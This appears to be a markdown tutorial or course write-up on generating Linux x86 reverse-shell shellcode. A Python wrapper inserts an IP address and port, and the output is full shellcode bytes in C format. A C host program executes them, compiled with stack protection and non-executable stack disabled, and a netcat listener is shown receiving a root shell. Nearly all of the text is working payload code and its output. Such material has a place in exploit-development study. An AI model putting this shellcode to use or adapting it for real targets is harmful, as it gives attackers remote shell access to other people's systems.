 #### Generating the Shellcode with the Wrapper
```console
root# python revshWrapper.py
Enter TCP Port Number: 33801
Your TCP Port in Hex is: \x84\x09
Enter IP Address [127.1.1.1]: 172.16.65.138
Your IP Address in Hex is: \xac\x10\x41\x8a
Choose your shellcode export format.
[1] = C Format
[2] = Python Format
[1]: 1
[----------------Your-Shellcode------------------]
unsigned char shellcode[] = \
"\x31\xc0\xb0\x66\x31\xdb\x43\x31\xc9\x51\x53\x6a"
"\x02\x89\xe1\xcd\x80\x96\x31\xc0\x43\x68\xac\x10"
"\x41\x8a\x66\x68\x84\x09\x66\x53\x89\xe1\x6a\x10"
"\x51\x56\x89\xe1\x43\xb0\x66\xcd\x80\x87\xde\x31"
"\xc9\xb0\x3f\xcd\x80\x41\x80\xf9\x04\x75\xf6\x31"
"\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e"
"\x89\xe3\xb0\x0b\x31\xc9\xcd\x80";
```

### Adding the Shellcode to the Host C Program
```c
#include<stdio.h>
#include<string.h>
unsigned char shellcode[] = \
"\x31\xc0\xb0\x66\x31\xdb\x43\x31\xc9\x51\x53\x6a"
"\x02\x89\xe1\xcd\x80\x96\x31\xc0\x43\x68\xac\x10"
"\x41\x8a\x66\x68\x84\x09\x66\x53\x89\xe1\x6a\x10"
"\x51\x56\x89\xe1\x43\xb0\x66\xcd\x80\x87\xde\x31"
"\xc9\xb0\x3f\xcd\x80\x41\x80\xf9\x04\x75\xf6\x31"
"\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e"
"\x89\xe3\xb0\x0b\x31\xc9\xcd\x80";
main()
{
        printf("Shellcode Length:  %d\n", strlen(shellcode));
        int (*ret)() = (int(*)())shellcode;
        ret();
}
```

#### Compiling the Host C Program
```console
root# gcc -fno-stack-protector -z execstack -o shellcode shellcode.c
```

### Testing the Shellcode
#### Window 1
```console
root# ./shellcode
Shellcode Length:  80
```

#### Window 2
```console
root# nc.traditional -v -l -s 172.16.65.138 -p 33801
listening on [172.16.65.138] 33801 ...
connect to [172.16.65.138] from ubuntu.local [172.16.65.138] 58352
id
uid=0(root) gid=0(root) groups=0(root)

```
+ Recieved reverse shell on listener


